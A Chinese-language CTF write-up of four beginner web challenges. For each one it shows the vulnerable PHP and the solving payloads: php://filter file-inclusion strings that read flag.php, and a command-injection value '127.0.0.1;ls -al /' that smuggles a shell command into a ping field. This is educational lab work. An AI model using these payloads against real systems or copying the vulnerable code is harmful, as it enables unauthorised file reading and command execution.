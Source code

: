 # 2021/07/01

## Have fun

> 极客大挑战 2019

### 题目

题目比较简单，打开页面源码，发现源码也包含在其中，发送Get请求`cat=dog`得到`flag`

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog'){
    echo 'Syc{cat_cat_cat_cat}';
}
```

### payload

```
?cat=dog
```

## Include

> ACTF 2020

### 题目

F12打开源码，发现一个`?file=flag.php`链接，点进去发现啥都没有，那只能先试试**伪协议**文件包含flag.php，得到base64的代码，解码后得到`flag`

### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## Secret File

> 极客大挑战 2019

### 题目

F12打开源码，发现一个`./Archive_room.php`的链接，点进去有一个**secret**按钮，点进去发现查阅结束，需要用Burp截包，截下数据包发现，有一个**302跳转**，其中包含`secr3t.php`页面，发现源代码。

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

还是经典的伪协议读取，读取`flag.php`，得到`flag`

### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## Exec

> ACTF 2020

### 题目

给了一个可以ping的框，F12打开源码，发现是命令执行，直接在框里输入命令绕过`127.0.0.1;ls`，得到目录下文件`index.php`，cat命令阅读源码，`ls`搜索目录发现上层目录中有`flag`文件，获取`flag`

```php
<?php 
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```

### payload

```
127.0.0.1;ls -al /
```
